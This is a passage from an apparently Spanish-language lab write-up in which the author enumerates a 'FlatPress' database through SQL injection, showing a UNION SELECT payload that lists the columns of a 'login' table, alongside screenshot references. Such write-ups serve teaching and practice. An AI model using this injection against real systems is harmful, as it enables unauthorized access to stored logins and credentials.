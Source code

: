 <img src="/assets/images/THL-writeup-base/Captura11.png">
</p>

Vemos la tabla login.

Obtengamos las columnas de esa tabla con la siguiente inyección:
```bash
' union select column_name,2,3,4,5 from information_schema.columns where table_schem='FlatPress' and table_name='login'-- -
```

Observa el resultado:

<p align="center">
<img src="/assets/images/THL-writeup-base/Captura12.png">